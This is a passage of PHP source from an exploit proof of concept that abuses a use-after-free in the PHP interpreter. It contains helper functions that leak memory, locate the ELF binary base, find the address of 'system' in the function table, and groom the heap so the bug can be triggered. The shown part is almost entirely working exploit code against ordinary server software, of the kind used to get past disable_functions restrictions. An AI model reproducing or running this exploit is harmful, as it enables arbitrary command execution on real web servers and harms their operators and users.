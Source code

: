 ```cobol
                $deref = leak($leak);
                
                if($deref != 0x786568326e6962)
                    continue;
            } else continue;
 
            return $data_addr + $i * 8;
        }
    }
 
    function get_binary_base($binary_leak) {
        $base = 0;
        $start = $binary_leak & 0xfffffffffffff000;
        for($i = 0; $i < 0x1000; $i++) {
            $addr = $start - 0x1000 * $i;
            $leak = leak($addr, 0, 7);
            if($leak == 0x10102464c457f) {
                return $addr;
            }
        }
    }
 
    function get_system($basic_funcs) {
        $addr = $basic_funcs;
        do {
            $f_entry = leak($addr);
            $f_name = leak($f_entry, 0, 6);
 
            if($f_name == 0x6d6574737973) {
                return leak($addr + 8);
            }
            $addr += 0x20;
        } while($f_entry != 0);
        return false;
    }
 
    function trigger_uaf($arg) {
 
        $arg = str_shuffle('AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA');
        $vuln = new Vuln();
        $vuln->a = $arg;
    }
 
    if(stristr(PHP_OS, 'WIN')) {
        die('This PoC is for *nix systems only.');
    }
 
    $n_alloc = 10; 
    $contiguous = [];
    for($i = 0; $i < $n_alloc; $i++)
        $contiguous[] = str_shuffle('AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA');
 
    trigger_uaf('x');
    $abc = $backtrace[1]['args'][0];
 
    $helper = new Helper;
    $helper->b = function ($x) { };
 
    if(strlen($abc) == 79 || strlen($abc) == 0) {
        die("UAF failed");
    }
```
